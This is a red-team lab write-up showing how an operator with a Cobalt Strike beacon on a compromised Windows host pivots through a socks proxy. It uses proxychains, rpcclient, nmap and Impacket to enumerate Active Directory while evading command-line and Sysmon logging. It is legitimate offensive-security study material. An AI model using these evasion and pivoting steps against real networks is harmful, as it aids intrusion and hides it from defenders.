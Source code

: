 # Enumerating Windows Domains with rpcclient through SocksProxy == Bypassing Command Line Logging

This lab shows how it is possible to bypass commandline argument logging when enumerating Windows environments, using Cobalt Strike and its socks proxy \(or any other post exploitation tool that supports socks proxying\).

In other words - it's possible to enumerate AD \(or create/delete AD users, etc.\) without the likes of:

* net user
* net user &lt;bla&gt; /domain
* net user &lt;bla&gt; &lt;bla&gt; /add /domain
* net localgroup
* net groups /domain
* and similar commands

...which most likely are monitored by the blue team.

## Assumption

In this lab, it is assumed that the attacker/operator has gained:

* code execution on a target system and the beacon is calling back to the team server
* valid set of domain credentials for any `authenticated user`

## Lab Environment

| IP | What's behind |
| :--- | :--- |
| 10.0.0.5 | attacker with kali and `rpcclient` |
| 10.0.0.2 | compromised Windows system `WS01` |
| 10.0.0.6 | Windows DC `DC01` to be interrogated by 10.0.0.5 via 10.0.0.2 |
| 10.0.0.7 | Windows box `WS02` to be interrogated by 10.0.0.5 via 10.0.0.2 |

## Execution

The below shows a couple of things. First one - two Cobalt Strike sessions:

* PID 4112 - original beacon
* PID 260 - beacon injected into dllhost process

Second - attacker opens a socks4 proxy on port 7777 on his local kali machine \(10.0.0.5\) by issuing:

{% code title="attacker@cobaltstrike" %}
```text
socks 7777
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-05-00-08-58.png)

This means that the attacker can now use proxychains to proxy traffic from their kali box through the beacon to the target \(attacker ---&gt; beacon ---&gt; end target\).

Let's see how this works by firstly updating the proxychains config file:

{% code title="attacker@kali" %}
```text
nano /etc/proxychains.conf
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-20-21.png)

### Enumeration

Once proxychains are configured, the attacker can start enumerating the AD environment through the beacon like so:

{% code title="attacker@kali" %}
```text
proxychains rpcclient 10.0.0.6 -U spotless
enumdomusers
```
{% endcode %}

![Victim \(10.0.0.2\) is enumerating DC \(10.0.0.6\) on behalf of attacker \(10.0.0.5\)](../../.gitbook/assets/screenshot-from-2019-02-05-20-22-43.png)

Moving on, same way, they can query info about specific AD users:

{% code title="attacker@kali" %}
```text
queryuser spotless
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-34-33.png)

Enumerate current user's privileges and many more \(consult rpcclient for all available commands\):

{% code title="attacker@kali" %}
```text
enumprivs
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-34-42.png)

Finally, of course they can run nmap if needed:

{% code title="attacker@kali" %}
```csharp
proxychains nmap 10.0.0.6 -T4 -p 21,22,23,53,80,443,25 -sT
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-36-48.png)

### Impacket

Impacket provides even more tools to enumerate remote systems through compromised boxes. See the below example gif.

This is what happens - attacker \(10.0.0.5\) uses proxychains with impacket's reg utility to retrieve the hostname of the box at 10.0.0.7 \(WS02\) via the compromised \(CS beacon\) box 10.0.0.2 \(WS01\):

{% code title="attacker@kali" %}
```csharp
proxychains reg.py offense/administrator:123456@10.0.0.2 -target-ip 10.0.0.7 query -keyName hklm\system\currentcontrolset\control\computername\computername
```
{% endcode %}

The below shows traffic captures that illustrate that the box 10.0.0.2 enumerates 10.0.0.7 using SMB traffic only:

![](../../.gitbook/assets/peek-2019-02-09-19-50.gif)

Below further proves that the box 10.0.0.2 \(WS01 which acted as proxy\) did not generate any sysmon logs and the target box 10.0.0.7 \(WS02\) logged a couple of events, that most likely would not attract much attention from the blue teams:

![](../../.gitbook/assets/screenshot-from-2019-02-09-19-59-58.png)

## Observations

Note how only the SMB traffic between the compromised system and the DC is generated, but no new processes are spawned by the infected `dllhost` process:

![](../../.gitbook/assets/peek-2019-02-05-20-24.gif)

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-18-20.png)

## References

{% embed url="https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html" caption="" %}

{% embed url="https://github.com/SecureAuthCorp/impacket/tree/master/examples" caption="" %}

{% embed url="https://www.cobaltstrike.com/help-socks-proxy-pivoting" caption="" %}

{% embed url="https://www.youtube.com/watch?v=l8nkXCOYQC4&index=19&list=WL&t=7s" caption="" %}

